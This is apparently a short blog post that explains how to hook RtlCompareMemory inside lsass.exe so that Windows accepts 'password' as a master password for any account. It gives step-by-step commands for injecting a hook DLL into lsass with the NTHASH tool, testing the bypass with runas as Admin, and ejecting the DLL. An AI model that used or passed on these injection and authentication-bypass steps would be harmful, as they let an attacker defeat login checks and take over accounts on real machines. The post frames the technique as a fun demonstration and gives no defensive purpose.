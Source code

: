 For fun and (no) profit : lets hook rtlcomparememory in lsass.exe.
Indeed, at some point, windows will need to compare a (md4) hash of your provided password with the hash of the password in the local sam database.
Definition of rtlcomparememory is here : https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcomparememory .
So lets hook rtlcomparememory, and if 'password' (or rather the md4 hash) is provided, then lets return "true".

Let's see how to achieve this.

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass

NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll

optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .

test runas /user:Admin cmd (provide "password" here as password when prompted) : you win!

NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll

optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .
